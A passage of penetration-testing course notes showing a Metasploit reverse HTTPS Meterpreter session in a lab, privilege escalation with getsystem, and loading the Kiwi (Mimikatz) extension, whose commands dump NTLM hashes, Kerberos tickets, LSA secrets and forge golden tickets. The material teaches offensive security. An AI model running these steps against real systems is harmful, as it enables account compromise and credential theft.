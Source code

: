 One great example of this is _Kiwi_, which is a Meterpreter extension providing the capabilities of _Mimikatz_
+ Because Mimikatz requires SYSTEM rights, let's exit the current Meterpreter session, start the listener again, execute **met.exe** as user _luiza_ in the bind shell, and enter **getsystem**
```
msf6 exploit(windows/local/bypassuac_sdclt) > use exploit/multi/handler
[*] Using configured payload windows/x64/meterpreter_reverse_https

msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://192.168.119.4:443
[*] https://192.168.119.4:443 handling request from 192.168.50.223; (UUID: gokdtcex) Redirecting stageless connection from /tiUQIXcIFB-TCZIL8eJASw2GMM8KqsU3KADjTJhh8lSgwsEBpqGfM1Q0FsWwlgyPzfFi9gci43oVxGCxcYQy0mH0 with UA 'Mozilla/5.0 (Macintosh; Intel Mac OS X 12.2; rv:97.0) Gecko/20100101 Firefox/97.0'
[*] https://192.168.119.4:443 handling request from 192.168.50.223; (UUID: gokdtcex) Attaching orphaned/stageless session...
[*] Meterpreter session 11 opened (192.168.119.4:443 -> 127.0.0.1) at 2022-08-04 10:10:16 -0400

meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
```

Now, let's enter **`load`** with **`kiwi`** as argument to load the Kiwi module
+ Then, we can use **help** to display the commands of the Kiwi module
+ Finally, we'll use **`creds_msv`** to retrieve LM and NTLM credentials
```
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.

meterpreter > help

...

Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_livessp          Retrieve Live SSP creds
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
```